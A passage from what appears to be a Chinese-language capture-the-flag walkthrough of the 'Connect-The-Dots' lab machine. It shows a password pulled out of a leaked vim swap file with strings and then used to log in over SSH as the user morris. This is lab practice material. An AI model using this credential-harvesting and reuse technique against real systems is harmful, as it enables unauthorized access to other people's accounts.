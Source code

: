   ```
  
  .secretfile.swp              100%[==============================================>]  12.00K  --.-KB/s    in 0s      
  
  2023-08-18 04:34:08 (383 MB/s) - ‘.secretfile.swp’ saved [12288/12288]
  
                                                                                                                      
  ┌──(kali㉿kali)-[~/Desktop/walkthroughs/Connect-The-Dots]
  └─$ strings .secretfile.swp 
  b0VIM 8.1
  root
  sirrom
  /var/www/html/secretfile
  U3210
  #"! 
  blehguessme090 
  I see you're here for the password. Holy Moly! Battery is dying !! Mentioning below for reference..
  ```

- 使用`vim -r .secretfile.swp`来进行读取当前`swp`文件

- ![image-20230818163939437](https://raw.githubusercontent.com/r0o983/images/main/202308181639478.png)

- 当前用户无法使用`sudo -l `也没有定时任务，尝试使用刚才获得的字符串来切换到其他用户(`morris`:blehguessme090)

- ```shell
  └─$ ssh morris@192.168.2.6 -p 7822          
  morris@192.168.2.6's password: 
  Linux sirrom 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
  
  The programs included with the Debian GNU/Linux system are free software;
  the exact distribution terms for each program are described in the
  individual files in /usr/share/doc/*/copyright.
  
  Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
  permitted by applicable law.
  
  ###
     #     #    #     #     #####     #      ##     #####     #    #    #   ####
     #     ##   #     #       #       #     #  #      #       #    ##   #  #    #
     #     # #  #     #       #       #    #    #     #       #    # #  #  #
     #     #  # #     #       #       #    ######     #       #    #  # #  #  ###
     #     #   ##     #       #       #    #    #     #       #    #   ##  #    #
    ###    #    #     #       #       #    #    #     #       #    #    #   ####
  